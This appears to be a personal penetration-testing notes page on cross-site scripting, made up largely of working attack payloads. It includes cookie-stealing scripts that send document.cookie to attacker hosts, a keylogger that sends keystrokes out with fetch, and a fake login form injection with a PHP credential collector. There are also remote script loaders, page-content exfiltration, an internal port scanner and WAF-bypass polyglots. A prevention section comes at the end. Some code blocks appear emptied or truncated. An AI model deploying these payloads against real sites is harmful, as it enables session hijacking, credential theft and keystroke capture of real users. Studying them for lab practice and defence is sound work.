

# XSS

| [https://xsshunter.com/](https://xsshunter.com/)                                                                                               |
| ---------------------------------------------------------------------------------------------------------------------------------------------- |
| [https://portswigger.net/web-security/cross-site-scripting/cheat-sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet) |
| [https://portswigger.net/web-security/cross-site-scripting](https://portswigger.net/web-security/cross-site-scripting)                         |
| https://github.com/epsylon/xsser                                                                                                               |

> Cross-site scripting allows an attacker to compromise the interactions that users have with a vulnerable application. It allows an attacker to circumvent the same origin policy, which is designed to segregate different websites from each other. Cross-site scripting vulnerabilities normally allow an attacker to masquerade as a victim user, to carry out any actions that the user is able to perform, and to access any of the user's data.

> XSS allows attackers to inject malicious scripts (usually JavaScript) into web pages viewed by other users. These scripts can steal cookies, session tokens, or perform actions on behalf of the user without their consent, i.e. exploit a trusted website with malicious scripts reflected (we can modify a parameter reflected in the response).

???+ tip
    VERY IMPORTANT: Test all available inputs (input fields, URL, parameters...).&#x20;
    
    See if we can type sth that gets reflected on the response (seen on the website).&#x20;
    
    Then submit different chars to see which are reflected or encoded.&#x20;
    
    If we edit the response as HTML (Dev Tools > Inspect > Edit as HTML) to see if the response was HTML encoded.
    
    If there is any limitation (client-side checks) either use Dev Tools > Inspect or Burp to bypass them.


## What can XSS be used for?

An attacker who exploits a cross-site scripting vulnerability is typically able to:

* Impersonate or masquerade as the victim user.
* Carry out any action that the user is able to perform.
* Read any data that the user is able to access.
* Capture the user's login credentials.
* Perform virtual defacement of the web site.
* Inject trojan functionality into the web site.




## Types of XSS

| Type                             | Description                                                                                                                                                                                                                                                                   |
| -------------------------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `Stored (Persistent) XSS`        | The most critical type of XSS, which occurs when user input is stored on the back-end database and then displayed upon retrieval (e.g., posts or comments)                                                                                                                    |
| `Reflected (Non-Persistent) XSS` | Occurs when user input is displayed on the page after being processed by the backend server, but without being stored (e.g., search result or error message)                                                                                                                  |
| `DOM-based XSS`                  | Another Non-Persistent XSS type that occurs when user input is directly shown in the browser and is completely processed on the client-side, without reaching the back-end server (e.g., through client-side HTTP parameters or anchor tags)                                  |
| `Self-XSS`                       | Only triggered if the victim themselves submits the XSS payload from their browser. Delivering normally involves socially engineering the victim to paste some attacker-supplied input into their browser. As such, it is normally considered to be a lame, low-impact issue. |

## Testing Payloads
```JS
TEST FOR XSS
<script>alert(window.origin)</script>

THEN CHECK SOURCE CODE TO SEE OUR PAYLOAD

IN CASE alert() is blocked
<plaintext> -> will stop rendering the HTML code that comes after it and display it as plaintext.
<script>print()</script>
```
**Tip:** Many modern web applications utilize cross-domain IFrames to handle user input, so that even if the web form is vulnerable to XSS, it would not be a vulnerability on the main web application. This is why we are showing the value of `window.origin` in the alert box, instead of a static value like `1`. In this case, the alert box would reveal the URL it is being executed on, and will confirm which form is the vulnerable one, in case an IFrame was being used.

There are two types of `Non-Persistent XSS` vulnerabilities: `Reflected XSS`, which gets processed by the back-end server, and `DOM-based XSS`, which is completely processed on the client-side and never reaches the back-end server.
```html
# IDENTIFY INPUT FIELDS (SUCH AS SEARCH FIELDS)
< > ' " { } ;
If the application does not remove or encode these characters in the response, it maybe vulnerable to XSS as the characters can be used to introduce codeinto the page.

# INSPECT ELEMENT, CHECK INSIDE THE MESSAGE AND IF THE OUTPUT IS FILTERED

# Content Injection
<iframe src=http://10.11.0.4/report height=”0” width=”0”></iframe>

# HTML Injection
<h1>
<marquee>

# XSS in case someone checks or loads a website
<script src="http://10.10.10.10/pwned.js"></script>
#Second option
</img><a href="http://10.10.10.10/">click me</a>

# AN XSS PAYLOAD TO STEAL COOKIES
<script>new Image().src="http://10.11.0.4/cool.jpg?output="+document.cookie;</script>
We set up nc -lvnp 80 and when the user logs in, we get the cookie

script/xss
TRY '<>:;"
<script>alert(1)</script>

"><h1>test</h1>
'+alert(1)+'
"onmouseover="alert(1)
http://"onmouseover="alert(1)

<h1></h1>  #try to insert HTML at first
window.location.hostname # know hostname or IPml
# DEFACE A WEBSITE
If there is an element > Inspect element > <span id="thm-title">
# TO CHANGE THE TITLE WITH CONSOLE
document.querySelector('#thm-title').textContent = "Hey"
```

## Reflected XSS
```sh
Only affects the person submitting the request, requires social engineering trick, most common XSS attack.
# Detection: 
- Parameters in the URL Query String
- URL File Path
- Sometimes HTTP Headers (although unlikely exploitable in practice)

https://insecure-website.com/status?message=All+is+well.
<p>Status: All is well.</p>
https://insecure-website.com/status?message=<script>/*+Bad+stuff+here...+*/</script>
<p>Status: <script>/* Bad stuff here... */</script></p>
# Impact: perform any action that the user can perform
# How to find and test for reflected XSS vulnerabilities
Test every entry point
Submit random alphanumeric values (lenght of 8 is ideal) for every entry point and see if it gets reflected
Determine the reflection context. For each location within the response where the random value is reflected, determine its context. This might be in text between HTML tags, within a tag attribute which might be quoted, within a JavaScript string, etc. 
# XSS between HTML tags
<script>alert(document.domain)</script>

# TO BE CONTINUED...
```


## Stored XSS
```sh
Stored XSS attack gets cached on the server and affect all site users (comment sections, product reviews, or wherever user content can be stored and reviewed later).
# Detection:
- Comments on a blog
- User profile information
- Website Listings

# The data in question might be submitted to the application via HTTP requests; for example, comments on a blog post, user nicknames in a chat room, or contact details on a customer order. 
<p>Hello, this is my message!</p>
<p><script>/* Bad stuff here... */</script></p>
```

## DOM XSS
DOM XSS occurs when JavaScript is used to change the page source through the `Document Object Model (DOM)`. DOM-based XSS vulnerabilities usually arise when JavaScript takes data from an attacker-controllable source, such as the URL, and passes it to a sink that supports dynamic code execution, such as `eval()` or `innerHTML`.
### Source & sink
The `Source` is the JavaScript object that takes the user input, and it can be any input parameter like a URL parameter or an input field, as we saw above.
On the other hand, the `Sink` is the function that writes the user input to a DOM Object on the page. If the `Sink` function does not properly sanitize the user input, it would be vulnerable to an XSS attack. Some of the commonly used JavaScript functions to write to DOM objects are:
- `document.write()`
- `DOM.innerHTML`
- `DOM.outerHTML`
Furthermore, some of the `jQuery` library functions that write to DOM objects are:
- `add()`
- `after()`
- `append()`
Locate .js file, inspect it, find the sink (innerHTML for example) and send this input (script tag will not work due to security)
```html

```
To target a user with this DOM XSS vulnerability, we can once again copy the URL from the browser and share it with them, and once they visit it, the JavaScript code should execute.

```sh
https://www.w3.org/TR/REC-DOM-Level-1/introduction.html

# Example: app uses some JavaScript to read the value from an input field and write that value to an element within the HTML:
var search = document.getElementById('search').value;
var results = document.getElementById('results');
results.innerHTML = 'You searched for: ' + search;
#  If the attacker can control the value of the input field, they can easily construct a malicious value that causes their own script to execute: 
You searched for: 

# HOW TO TEST
# Testing HTML sinks
Place a random alphanumeric string into the source (such as location.search) and then use developer tools
to inspect the HTML and find where your string appears. In Chrome developer tools, Control+F to search the DOM for your string. 
# Testing JavaScript execution sinks
Little harder. Input does not appear on DOM so we need Javascript debugger to determine whether and how your input is sent to a sink. 
In Chrome Developer Tools, Control+Shift+F (or Command+Alt+F on MacOS) to search all the page JavaScript code for the source.  
Once you found where the source is being read, you can use the JavaScript debugger to add a break point and follow how the source value is used.

# Exploiting DOM XSS with different sources and sinks
document.write('... <script>alert(document.domain)</script> ...'); # document.write sink works with script elements
"><script>alert(document.domain)</script>
"
# innerHTML sink doesn't accept script elements on any modern browser, you will use elements like img or iframe 
element.innerHTML='...  ...' 
# Sources and sinks in third-party dependencies
# DOM XSS in jQuery
$(function() {
	$('#backLink').attr("href",(new URLSearchParams(window.location.search)).get('returnUrl'));
});
?returnUrl=javascript:alert(document.domain)
$(window).on('hashchange', function() {
	var element = $(location.hash);
	element[0].scrollIntoView();
});
<iframe src="https://vulnerable-website.com#" onload="this.src+=''">
# DOM XSS in AngularJS
If a framework like AngularJS is used, it may be possible to execute JavaScript without angle brackets or events.
AngularJS might execute JavaScript inside double curly braces that can occur directly in HTML or inside attributes. 

# DOM XSS combined with reflected and stored data
eval('var data = "reflected string"');
element.innerHTML = comment.author

# Which sinks can lead to DOM-XSS vulnerabilities?
document.write()
document.writeln()
document.domain
element.innerHTML
element.outerHTML
element.insertAdjacentHTML
element.onevent
#  The following jQuery functions are also sinks that can lead to DOM-XSS vulnerabilities: 
add()
after()
append()
animate()
insertAfter()
insertBefore()
before()
html()
prepend()
replaceAll()
replaceWith()
wrap()
wrapInner()
wrapAll()
has()
constructor()
init()
index()
jQuery.parseHTML()
$.parseHTML()

# How to prevent DOM-based taint-flow vulnerabilities
There is no single action you can take to eliminate the threat of DOM-based attacks entirely. 
However, generally speaking, the most effective way to avoid DOM-based vulnerabilities is 
to avoid allowing data from any untrusted source to dynamically alter the value that is transmitted to any sink. 
```

## XSS Discovery
### Automated
Some of the common open-source tools that can assist us in XSS discovery are [XSS Strike](https://github.com/s0md3v/XSStrike), [Brute XSS](https://github.com/rajeshmajumdar/BruteXSS), and [XSSer](https://github.com/epsylon/xsser).
```sh
 python xsstrike.py -u "http://SERVER_IP:PORT/index.php?task=test" 
```
### Manual
We can find huge lists of XSS payloads online, like the one on [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md) or the one in [PayloadBox](https://github.com/payloadbox/xss-payload-list).
Note: XSS can be injected into any input in the HTML page, which is not exclusive to HTML input fields, but may also be in HTTP headers like the Cookie or User-Agent (i.e., when their values are displayed on the page).

Tip: To understand which payload should work, try to view how your input is displayed in the HTML source after you add it.
## XSS Attacks
### Defacing
Four HTML elements are usually utilized to change the main look of a web page:
- Background Color `document.body.style.background`
- Background `document.body.background`
- Page Title `document.title`
- Page Text `DOM.innerHTML`
```js
<!--DARK COLOUR FOR BACKGROUND (WE CAN USE ALSO = "black")
<script>document.body.style.background = "#141d2b"</script>

<!--SET AN IMAGE TO THE BACKGROUND 
<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>

<!--CHANGING PAGE TITLE
<script>document.title = 'HackTheBox Academy'</script>

<!--CHANGING PAGE TEXT
document.getElementsByTagName('body')[0].innerHTML = "New Text"

<!--FINAL PAYLOAD MINIFIED IN A SINGLE LINE
<script>document.getElementsByTagName('body')[0].innerHTML = '<center><h1 style="color: white">Cyber Security Training</h1><p style="color: white">by  </p></center>'</script>
```
### Phishing
- Find working XSS payload.
#### Login Form Injection
```html
<h3>Please login to continue</h3>
<form action=http://OUR_IP>
    <input type="username" name="username" placeholder="Username">
    <input type="password" name="password" placeholder="Password">
    <input type="submit" name="submit" value="Login">
</form>
```
All in one line, removing the field that will be shown only after the fake login and commenting at the end to avoid some leftover chars appearing on the website
```js
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove(); <!--
```
#### Credential Stealing
We use PHP to redirect to the real website and avoid errors which might look suspicious. We will call it index.php and will be hosted on our VM:
```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://SERVER_IP/phishing/index.php");
    fclose($file);
    exit();
}
?>
```
If we check the `creds.txt` file, we see that we did get the login credentials
With everything ready, we can start our PHP server and send the URL that includes our XSS payload to our victim, and once they log into the form, we will get their credentials and use them to access their accounts.
### Session Hijacking
If a malicious user obtains the cookie data from the victim's browser, they may be able to gain logged-in access with the victim's user without knowing their credentials.
#### Blind XSS
Blind XSS vulnerabilities usually occur with forms only accessible by certain users (e.g., Admins). Some potential examples include:
- Contact Forms
- Reviews
- User Details
- Support Tickets
- HTTP User-Agent header
1. `How can we know which specific field is vulnerable?` Since any of the fields may execute our code, we can't know which of them did -> script src w/ different names per field to identify which
2. `How can we know what XSS payload to use?` Since the page may be vulnerable, but the payload may not work?
#### Loading a Remote Script
```html
<!-- SIMPLE EXAMPLE-->
<script src="http://OUR_IP/script.js"></script>

<!-- IN CASE WE HAVE TO ESCAPE QUOTES, TAGS OR BLACKLISTED EXPRESSIONS, TRY EVERY PAYLOAD FROM PAYLOADSALLTHETHINGS-->
<script src=http://OUR_IP></script>
'><script src=http://OUR_IP></script>
"><script src=http://OUR_IP></script>
javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')
<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script>
<script>$.getScript("http://OUR_IP")</script>

<!-- FOR EACH POSSIBLE VULNERABLE FIELD-->
<script src=http://OUR_IP/fullname></script> #this goes inside the full-name field
<script src=http://OUR_IP/username></script> #this goes inside the username field
...SNIP...
```
#### Session Hijacking
```javascript
<!-- USE ANY OF THESE (SECOND ONE IS BEST, LOADING AN IMAGE SEEMS NOT VERY MALICIOUS LOOKING)
document.location='http://OUR_IP/index.php?c='+document.cookie;
new Image().src='http://OUR_IP/index.php?c='+document.cookie;
```
We can write any of these JavaScript payloads above to `script.js`, which will be hosted on our VM as well.
Now, we can change the URL in the XSS payload we found earlier to use `script.js`
```html
<script src=http://OUR_IP/script.js></script>
```
PHP script to split several cookies (in case we receive not only one) with a new line and write them to a file.
```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```
Now, we wait for the victim to visit the vulnerable page and view our XSS payload. Once they do, we will get two requests on our server, one for `script.js`, which in turn will make another request with the cookie value.
## Advanced attacks
- Injecting Key Loggers to capture what the victim is typing
- Cross-Site Request Forgery (CSRF), to perform Web/API requests through the victim's session
- Bypassing XSS protections

## XSS contexts

```javascript
# XSS between HTML tags
<script>alert(document.domain)</script>


# XSS in HTML tag attributes
"><script>alert(document.domain)</script>
# your input cannot break out of the tag -> terminate the attribute value and introduce new attribute
" autofocus onfocus=alert(document.domain) x="
"
<a href="javascript:alert(document.domain)">
# Canonical tag -> you can exploit this behavior using access keys and user interaction on Chrome

# XSS into JavaScript
# Terminating the existing script
<script>
...
var input = 'controllable data here';
...
</script>
</script>
# Breaking out of a JavaScript string (literal, quotes)
'-alert(document.domain)-'
';alert(document.domain)//
\';alert(document.domain)// # in case ' is blacklisted with backslash
onerror=alert;throw 1 # call functions w/o parentheses
# Making use of HTML-encoding
<a href="#" onclick="... var input='controllable data here'; ...">
&apos;-alert(document.domain)-&apos; # &apos; sequence is an HTML entity representing an apostrophe or single quote
# XSS in JavaScript template literals
# Template literals are encapsulated in backticks, and embedded expressions are identified using the ${...} syntax. 
document.getElementById('message').innerText = `Welcome, ${user.displayName}.`;
<script>
...
var input = `controllable data here`;
...
</script>
${alert(document.domain)}
```

## Blind XSS

Similar to Stored XSS but we can't see the payload working against ourselves first.

When testing for Blind XSS vulnerabilities, you need to ensure your payload has a call back (usually an HTTP request). This way, you know if and when your code is being executed.

[https://github.com/mandatoryprogrammer/xsshunter-express](https://github.com/mandatoryprogrammer/xsshunter-express)

this tool will automatically capture cookies, URLs, page contents and more.

## Steal cookies

Cookie Stealing / Cookie Hijacking (useful for privilege escalation)

We could leverage our XSS to steal cookies and session information if the application uses an insecure session management configuration (only for session cookies, not all cookies).

The **Secure flag** instructs the browser to only send the cookie over encrypted connections, such as HTTPS.

The **HttpOnly flag** instructs the browser to deny JavaScript access to the cookie. If this flag is not set, we can use an XSS payload to steal the cookie.


```javascript
https://shift8web.ca/2018/01/craft-xss-payload-create-admin-user-in-wordpress-user/

# When we craft our HTTP request in JS code, we inify our attack code into a one-liner
https://jscompres.com
# Then we encode it so no badchars will interfere on the payload
function encode_to_javascript(string) {
	var input = string 
	var output = ''; 
	for(pos = 0; pos < input.length; pos++) { 
		output += input.charCodeAt(pos); 
		if(pos != (input.length - 1)) { 
			output += ","; 
		} 
	} 
	return output; 
} 
let encoded = encode_to_javascript('insert_minified_javascript') console.log(encoded)
# Let’s run the function from the browser’s console.
# To deliver the payload, we have to decode it and execute it with eval
"<script>eval(String.fromCharCode(118,97,...))</script>"
First we check it with curl --proxy to see it on Burp and then if it is ok we forward to the target.

# Some closing tags " ' > might be need for the payload to work
"><script>alert('0')</script>
';alert('2');//
<sscriptcript>alert('2');</sscriptcript>
" onload="alert('2');
# Polyglots
jaVasCript:/*-/*`/*\`/*'/*"/**/(/*  */onerror=alert('2')  )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e


# Steal content / cookies from restricted pages or files
https://exploit-notes.hdks.org/exploit/web/security-risk/xss/#steal-contents-of-restricted-pages-or-files
<script>document.write('')</script>
//We also need to deploy a server with Python to catch the cookie
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>


# Key Logger
<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>

# Business Logic (in case it is available a JS function like this)
<script>user.changeEmail('attacker@hacker.thm');</script>
```


### Fetch content

```javascript
### load script
<script>
fetch('http://alert.htb/messages.php')
.then(resp => resp.text())
.then(body => {
    fetch("http://10.10.14.6/exfil?body=" + btoa(body));
})
</script>
```

### Via HTML Injection

[https://0xdf.gitlab.io/2025/07/05/htb-cat.html#admin-site-access](https://0xdf.gitlab.io/2025/07/05/htb-cat.html#admin-site-access)

```html
Cyberchef > To HTML Entity > Convert to: Hex entities

```

## Content security policy (CSP)

Content security policy (CSP) is a browser mechanism that aims to mitigate the impact of cross-site scripting and some other vulnerabilities. If an application that employs CSP contains XSS-like behavior, then the CSP might hinder or prevent exploitation of the vulnerability. Often, the CSP can be circumvented to enable exploitation of the underlying vulnerability.

## Dangling markup injection

Dangling markup injection is a technique that can be used to capture data cross-domain in situations where a full cross-site scripting exploit is not possible, due to input filters or other defenses. It can often be exploited to capture sensitive information that is visible to other users, including CSRF tokens that can be used to perform unauthorized actions on behalf of the user.

## Deliver exploit to a victim

```javascript
<script>
location="https://xxxx"
</script>
```

## IP and Port Scanning


```javascript
# For example, a website could try to find if your router has a web interface at 192.168.0.1 by:


# The following script will scan an internal network in the range 192.168.0.0 to 192.168.0.255
   <script>
  for (let i = 0; i < 256; i++) {// This is looping from 0 to 255
   let ip = '192.168.0.' + i// Creates variable for forming IP
  // Creating an image element, if the resource can load, it logs to the /logs page.
   let code = ''
   document.body.innerHTML += code// This is adding the image element to the webpage
  }
</script>

# A more detailed port scanner
https://github.com/aabeling/portscan
```


## Key-Logger


```html
# Javascript can be used for many things, including creating an event to listen for keypresses.
 <script type="text/javascript">
  let l = ""; // Variable to store key-strokes in
  document.onkeypress = function (e) { // Event to listen for key presses
    l += e.key; // If user types, log it to the l variable
    console.log(l); // update this line to post to your own server
  }
 </script>
```


## Filter Evasion / Filter Bypass

<pre class="language-sh" data-overflow="wrap" data-full-width="true"><code class="lang-sh">https://swisskyrepo.github.io/PayloadsAllTheThings/XSS%20Injection/1%20-%20XSS%20Filter%20Bypass/

<strong># Real-world scenarios (Bug Bounties)
</strong>https://hackerone.com/reports/415484
https://hackerone.com/reports/409850
https://hackerone.com/reports/449351
https://hackerone.com/reports/283825
</code></pre>

## Advanced XSS

```javascript
XSS Payload WAF Bypass - hashtag#Microsoft #2025 hashtag#xss0r
<input type="checkbox" id="z" value="xss0r" style="display:none" &%2362;="" onchange​="top[['alert'][0]](location.hostname);this.remove()"><label for="z" style="position:fixed;inset:0;cursor:crosshair"></label>

&%2362; is a double-encoded HTML entity that resolves to >
This bypasses WAFs that decode only once (seeing &gt; instead of >)
Original: &gt; → > → renders as closing angle bracket
Uses onchange which is less monitored than onclick
Triggers when checkbox state changes (via label click)
top[['alert'][0]] is equivalent to top['alert'] but:
Uses array dereferencing ([0]) to hide "alert"
Bypasses simple regex checks for window.alert
Uses location.hostname instead of document.domain
Alternate property access avoids keyword detection
display:none makes checkbox invisible
position:fixed;inset:0 makes label cover entire viewport
cursor:crosshair provides visual cue (optional)
this.remove() cleans up after execution
No direct .alert() calls
No quote-based string concatenation
Uses array indexing for function name
Double-encoded HTML entities
Indirect property access (location vs document)
```

## Other Exploits

**BeEF** is a penetration testing tool that focuses on the web browser. The concept here is that you "hook" a browser (using XSS), then you are able to launch and control a range of different attacks.

BeEF allows the professional penetration tester to assess the actual security posture of a target environment by using client-side attack vectors.

## Prevention
- **Disable dangerous rendering raths:** Instead of using the `innerHTML` property, which lets you inject any content directly into HTML, use the `textContent` property instead, it treats input as text and parses it for HTML.
- **Make cookies inaccessible to JS:** 
- **Sanitise input/output and encode:**
	- In some situations, applications may need to accept limited HTML input—for example, to allow users to include safe links or basic formatting. However it's critical to sanitize and encode all user-supplied data to prevent security vulnerabilities. Sanitising and encoding removes or escapes any elements that could be interpreted as executable code, such as scripts, event handlers, or JavaScript URLs while preserving safe formatting.
- **Use appropriate response headers.**
- **Content Security Policy.**
- **HTTPOnly & Secure Cookies:** Set session cookies with the [HttpOnly](https://owasp.org/www-community/HttpOnly), [Secure](https://owasp.org/www-community/controls/SecureCookieAttribute), and [SameSite](https://owasp.org/www-community/SameSite) attributes to reduce the impact of XSS attacks.

**What is the difference between XSS and CSRF?** XSS involves causing a web site to return malicious JavaScript, while CSRF involves inducing a victim user to perform actions they do not intend to do.

**What is the difference between XSS and SQL injection?** XSS is a client-side vulnerability that targets other application users, while SQL injection is a server-side vulnerability that targets the application's database.

**How do I prevent XSS in PHP?** Filter your inputs with a whitelist of allowed characters and use type hints or type casting. Escape your outputs with `htmlentities` and `ENT_QUOTES` for HTML contexts, or JavaScript Unicode escapes for JavaScript contexts.

**How do I prevent XSS in Java?** Filter your inputs with a whitelist of allowed characters and use a library such as Google Guava to HTML-encode your output for HTML contexts, or use JavaScript Unicode escapes for JavaScript contexts.

### Front-End
#### Input Validation
For example, if the web application does not allow us to submit the form if the email format is invalid by using the following JavaScript code:

```javascript
function validateEmail(email) {
    const re = /^(([^<>()[\]\\.,;:\s@\"]+(\.[^<>()[\]\\.,;:\s@\"]+)*)|(\".+\"))@((\[[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\])|(([a-zA-Z\-0-9]+\.)+[a-zA-Z]{2,}))$/;
    return re.test($("#login input[name=email]").val());
}
```
#### Input Sanitization

In addition to input validation, we should always ensure that we do not allow any input with JavaScript code in it, by escaping any special characters. For this, we can utilize the [DOMPurify](https://github.com/cure53/DOMPurify) JavaScript library, as follows:

```javascript
<script type="text/javascript" src="dist/purify.min.js"></script>
let clean = DOMPurify.sanitize( dirty );
```
This will escape any special characters with a backslash `\`, which should help ensure that a user does not send any input with special characters (like JavaScript code), which should prevent vulnerabilities like DOM XSS.
#### Direct Input
If user input goes into any of the above examples, it can inject malicious JavaScript code, which may lead to an XSS vulnerability. In addition to this, we should avoid using JavaScript functions that allow changing raw text of HTML fields, like:

- `DOM.innerHTML`
- `DOM.outerHTML`
- `document.write()`
- `document.writeln()`
- `document.domain`

And the following jQuery functions:

- `html()`
- `parseHTML()`
- `add()`
- `append()`
- `prepend()`
- `after()`
- `insertAfter()`
- `before()`
- `insertBefore()`
- `replaceAll()`
- `replaceWith()`

As these functions write raw text to the HTML code, if any user input goes into them, it may include malicious JavaScript code, which leads to an XSS vulnerability.
### Back-end
#### Input Validation
Input validation in the back-end is quite similar to the front-end, and it uses Regex or library functions to ensure that the input field is what is expected. If it does not match, then the back-end server will reject it and not display it.
An example of E-Mail validation on a PHP back-end is the following:

```php
if (filter_var($_GET['email'], FILTER_VALIDATE_EMAIL)) {
    // do task
} else {
    // reject input - do not display it
}
```
#### Input Sanitization
When it comes to input sanitization, then the back-end plays a vital role, as front-end input sanitization can be easily bypassed by sending custom `GET` or `POST` requests. Luckily, there are very strong libraries for various back-end languages that can properly sanitize any user input, such that we ensure that no injection can occur.
For example, for a PHP back-end, we can use the `addslashes` function to sanitize user input by escaping special characters with a backslash:
```php
addslashes($_GET['email'])
```
In any case, direct user input (e.g. `$_GET['email']`) should never be directly displayed on the page, as this can lead to XSS vulnerabilities.
For a NodeJS back-end, we can also use the [DOMPurify](https://github.com/cure53/DOMPurify) library as we did with the front-end, as follows:
```javascript
import DOMPurify from 'dompurify';
var clean = DOMPurify.sanitize(dirty);
```
#### Output HTML Encoding
Another important aspect to pay attention to in the back-end is `Output Encoding`. This means that we have to encode any special characters into their HTML codes, which is helpful if we need to display the entire user input without introducing an XSS vulnerability. For a PHP back-end, we can use the `htmlspecialchars` or the `htmlentities` functions, which would encode certain special characters into their HTML codes (e.g. `<` into `&lt;`), so the browser will display them correctly, but they will not cause any injection of any sort:
```php
htmlentities($_GET['email']);
```
For a NodeJS back-end, we can use any library that does HTML encoding, like `html-entities`, as follows:
```javascript
import encode from 'html-entities';
encode('<'); // -> '&lt;'
```
Once we ensure that all user input is validated, sanitized, and encoded on output, we should significantly reduce the risk of having XSS vulnerabilities.
#### Server Configuration
In addition to the above, there are certain back-end web server configurations that may help in preventing XSS attacks, such as:
- Using HTTPS across the entire domain.
- Using XSS prevention headers.
- Using the appropriate Content-Type for the page, like `X-Content-Type-Options=nosniff`.
- Using `Content-Security-Policy` options, like `script-src 'self'`, which only allows locally hosted scripts.
- Using the `HttpOnly` and `Secure` cookie flags to prevent JavaScript from reading cookies and only transport them over HTTPS.
In addition to the above, having a good `Web Application Firewall (WAF)` can significantly reduce the chances of XSS exploitation, as it will automatically detect any type of injection going through HTTP requests and will automatically reject such requests. Furthermore, some frameworks provide built-in XSS protection, like [ASP.NET](https://learn.microsoft.com/en-us/aspnet/core/security/cross-site-scripting?view=aspnetcore-7.0).